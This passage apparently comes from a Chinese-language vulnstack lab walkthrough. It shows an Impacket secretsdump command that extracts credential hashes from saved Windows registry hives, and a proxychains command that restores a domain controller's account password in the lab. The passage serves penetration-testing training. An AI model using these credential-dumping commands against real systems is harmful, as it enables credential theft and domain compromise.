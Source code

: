 

这条命令是使用 Impacket 库中的 `secretsdump.py` 工具来从本地 Windows 注册表文件中提取凭据，将哈希值复制下来用于后续恢复域控制器账户的密码

```
impacket-secretsdump -sam sam.save -system system.save -security security.save local
```

![image-20230528172110062](vulnstack靶场系列二/image-20230528172110062.png)



使用`reinstall_original_pw.py`，用于恢复域控制器账户的密码

```
proxychains python3 reinstall_original_pw.py dc 10.10.10.10 <hex值>
```
